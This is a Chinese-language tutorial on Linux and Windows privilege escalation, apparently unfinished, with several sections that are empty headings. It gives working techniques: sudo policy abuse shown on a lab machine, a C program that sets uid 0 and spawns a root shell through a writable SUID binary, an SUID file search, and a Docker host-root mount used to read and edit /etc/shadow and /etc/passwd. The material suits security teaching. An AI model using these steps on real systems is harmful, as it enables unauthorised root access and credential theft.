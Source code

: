 # Privilege Escalation 权限提升

在真实场景中，为了安全起见，服务常用普通权限账户或者专门账户进行运行，而攻击者通过对目标系统对外开放的服务漏洞进行攻击，得到的权限也就是服务运行所使用的账户的权限。而对于渗透攻击来说，对目标系统的最终攻击目标是取得最高权限（`Windows` 系统的 `NT AUTHORITY\SYSTEM` 权限或是 `Linux` 系统的 `root` 权限）以掌握目标系统的完全控制，那么就需要攻击者从攻击当前服务得到的普通权限或者低权限，经过攻击提升到最高权限。

对于攻击者而言，为了从普通权限提升到最高权限，就需要攻击者对目标系统的环境进行探测，寻找系统内可能存在的漏洞，或者配置错误的安全策略，并进而将当前的权限提升至最高权限。

## Linux 提权

在 Linux 系统中，用户权限通常由 `/etc/passwd` 文件中的用户字段进行定义，用户权限由 `uid` 和 `gid` 进行定义，其分别为 `User IDentifier` 和 `Group IDentifier` 两个权限标识，定义用户权限以及用户组权限，对于最高权限（root）而言，其 `uid` 和 `gid` 都为 0，那么对于 `/etc/passwd` 文件可修改的情况下，可以直接对 `/etc/passwd` 文件进行修改，通过直接修改当前用户的权限标识，来直接获取目标系统的最高权限。

在 Linux 系统上，权限管理策略不仅仅由 `/etc/passwd` 定义的用户权限组成，还有文件权限。对于文件权限，可以通过 `ls -lh` 命令进行查看。以 `/etc/passwd` 文件为例

``` bash
ls -lh /etc/passwd
-rw-r--r-- 1 root root 2.1K Nov 15  2023 /etc/passwd
```

文件权限有基础的三个 `r`, `w` 和 `x` 标识，分别代表 `Read`, `Write` 和 `Execute` 三种操作，即读取、写入和执行。在这三个基础权限意外以外，还有三个特殊的 `SUID - set uid`, `SGID - set gid` 和 `SBIT - Sticky Bit` 权限，分别定义文件以拥有者的用户身份执行、文件以拥有组的组身份执行以及目录下的文件只能由 root 或者拥有者进行管理。

### Sudo 提权

`sudo` 所导致的提权，是由 `/etc/sudoers` 配置文件，或 `/etc/sudoers.d` 目录内的配置文件存在有缺陷的 sudo 策略导致的。默认情况下，`sudo` 的配置文件是无法通过普通用户的权限进行读取，但是可以由以下命令来查看当前用户的 `sudo` 策略

```bash
sudo -l
```

可以使用 [GTFOBins - Sudo](https://gtfobins.github.io/#+sudo) 数据库对得到的结果进行排查，`sudo` 所拥有的特性，决定了使用 `sudo` 执行的文件，可以视作 `sudo` 策略所配置的目标用户权限所执行。以 **HackMyVM - Pwned** 靶机作为例子，在获取到 `ariana` 用户的 shell 环境之后，排查 `sudo` 策略

```bash
ariana@pwned:~$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
```

根据所得到的结果，说明 `ariana` 用户可以以 `selena` 用户的身份运行 `/home/messenger.sh` 文件。对 `/home/messenger.sh` 文件进行排查，发现其可以执行任意命令，那么就可以通过构造反弹 shell 的命令传入 `/home/messenger.sh` 文件，进而在监听器获得 `selena` 用户的 shell 环境。

### SUID 提权

对于文件的 SUID 权限，其标志文件可以以文件拥有者的用户身份执行，那么如果此文件由 `root` 用户所拥有，并可以执行如 `setuid` 函数等行为，就可以由运行此文件的普通权限提升为 `root` 用户的最高权限。对于当前环境的普通权限，如果发现有可执行文件拥有 `SUID` 权限，同时当前的权限可以对此文件进行修改，就可以使用以下 C 语言片段所编译的可执行文件覆盖此文件的内容

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

对于其中的 `/bin/bash` 应当适用于大部分环境，如果当前环境不存在 `Bash` 则需要替换为其他 Shell 程序，如常见的 `/bin/sh` 程序

对于其他情况，可以使用以下命令对当前环境拥有 SUID 权限的文件进行扫描

```bash
find / -perm -u=s -type f 2>/dev/null
```

可以使用 [GTFOBins - SUID](https://gtfobins.github.io/#+suid) 数据库对得到的结果进行排查，如 `base64` 可以借助 SUID 权限实现任意文件读取，或 `vim` 可以借助 SUID 权限得到 `vim` 文件拥有者用户权限的 shell 环境。

### Capabilities 提权

### 常用 Linux 提权工具

## Windows 提权

`Windows` 系统的权限系统相较 `Linux` 系统的实现更为复杂

### Potato 家族

`Potato` 家族 从 `RottenPotato` 开始，伴随着微软和 Windows 的安全更新，`Potato` 家族也在不断演变

#### RoguePotato

#### RemotePotato0

#### JuicyPotatoNG

#### LocalPotato

#### ADCSCoercePotato(SilverPotato)

#### FakePotato

#### GodPotato

## 常见特权服务

除了针对系统本身安全策略，或者针对系统自身安全漏洞加以利用实现权限提升，还有一些以最高权限运行，或者拥有特殊权限的服务可以加以利用。

### Docker

对于 `Docker` 而言，其本身因为需要调用系统的 `cgroup` 等特性，所以需要以 `service` 来启动，那么其本身就拥有系统的管理权限。如果低权限用户拥有无安全限制的 `Docker` 操作权限，那么就有可能借助 `Docker` 服务实现权限提升。

借助 `Docker` 服务实现权限提升，常见的做法便是直接操作系统上的安全策略相关的文件。在 `Docker` 的 `Volume` 功能中，可以将宿主系统上的文件或者目录映射进 `Docker` 容器中。为了实现将目录映射进容器进而实现宿主系统上的文件修改，首先需要列出目前 `Docker` 可用的容器镜像，以这份输出为例

```default
REPOSITORY                              TAG       IMAGE ID       CREATED        SIZE
ghcr.io/eugeny/tabby-web                latest    1edfebbb9878   3 days ago     452MB
portainer/portainer-ee                  2.21.4    4af47f50b1c9   7 weeks ago    331MB
rustdesk/rustdesk-server                latest    e0892e67d5a7   2 months ago   23.5MB
ubuntu                                  22.04     97271d29cb79   3 months ago   77.9MB
ghcr.io/kingmo888/rustdesk-api-server   latest    0940480509a6   3 months ago   250MB
```

在这份输出中，可以看到有 `rustdesk` 和 `portainer` 等服务的容器镜像，也有 `ubuntu` 基础镜像。在攻击过程中，建议优先使用基础镜像，因为由于服务镜像可能存在的镜像优化或其他情况，可能会存在 `ENTRYPOINT` 或 `CMD` 容器执行入口被修改为服务可执行文件，或者不存在 `Bash` 或者 `sh` 等情况，这些都会对后续的操作产生阻碍。

这里选择 `ubuntu:22.04` 作为将使用的容器镜像，启动容器

```bash
docker run --rm -it -v /:/host-dir ubuntu:22.04  /bin/bash
root@ff7d6d73832b:/#
```

在容器中，查看宿主系统的敏感文件

```shell
root@ff7d6d73832b:/# cat /etc/hostname
ff7d6d73832b
root@ff7d6d73832b:/# cat /host-dir/etc/hostname
jmt-projekt
root@ff7d6d73832b:/# ls -lh /host-dir/etc/passwd /host-dir/etc/shadow
-rw-r--r-- 1 root root   1.8K Nov 15 05:45 /host-dir/etc/passwd
-rw-r----- 1 root shadow  854 Nov 15 05:51 /host-dir/etc/shadow
```

由于 Linux 的文件权限直接由文件系统直接定义，所以只要当前访问文件的用户权限满足文件权限的要求，都可以实现文件操作。对于使用 `Docker` 操作宿主系统上的文件而言，只要在容器内是 `root` 用户，就可以实现操作挂载进容器内的宿主系统根目录下所有 `root` 用户可操作的文件。如果对宿主系统的 `/etc/passwd` 或者 `/etc/shadow` 文件进行修改，就可以直接修改宿主系统上各用户的用户权限，以及修改各用户的账户密码。

### rc-local
